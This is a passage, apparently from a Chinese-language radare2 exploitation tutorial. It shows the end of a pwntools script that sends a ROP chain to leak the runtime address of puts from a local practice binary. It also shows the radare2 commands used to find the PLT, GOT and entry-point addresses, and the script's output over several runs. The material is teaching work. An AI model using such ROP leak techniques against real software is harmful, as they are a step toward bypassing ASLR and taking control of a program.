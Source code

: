 ```
    ropchain += p32(entry_point)
    ropchain += p32(puts_got)

    payload = payload + ropchain

    p.clean()
    p.sendline(payload)

    # Take 4 bytes of the output
    leak = p.recv(4)
    leak = u32(leak)
    log.info("puts is at: 0x%x" % leak)
    p.clean()

if __name__ == "__main__":
    main()
```

需要填写`puts@plt`、`puts@got`的地址，以及程序的入口点。 

在radare2并执行以下命令。` #` 字符用于注释，`~` 字符是 radare 的内部 `grep`。

`sym.imp.puts` 和 `reloc.puts `是 radare 检测的标志。 命令 `ie `代表信息入口点。

```
[0xf7fba120]>  # the address of puts@plt:
[0xf7fba120]> ?v sym.imp.puts
0x8048390
[0xf7fba120]> # the address of puts@got:
[0xf7fba120]> ?v reloc.puts
0x804a014
[0xf7fba120]> # the address of program’s entry point (entry0):
[0xf7fba120]> ieq
0x080483d0
```

将地址填入

```
...

# Addresses
puts_plt = 0x8048390
puts_got = 0x804a014
entry_point = 0x80483d0

...
```

执行该脚本

```
$ python3 exploit.py
[+] Starting local process ‘./megabeets_0x2’: pid 23578
[*] puts is at: 0xf75db710
[*] Stopped process ‘./megabeets_0x2’ (pid 23578)
 
$ python3 exploit.py
[+] Starting local process ‘./megabeets_0x2’: pid 23592
[*] puts is at: 0xf7563710
[*] Stopped process ‘./megabeets_0x2’ (pid 23592)
 
$ python3 exploit.py
[+] Starting local process ‘./megabeets_0x2’: pid 23606
[*] puts is at: 0xf75e3710
[*] Stopped process ‘./megabeets_0x2’ (pid 23606)
```
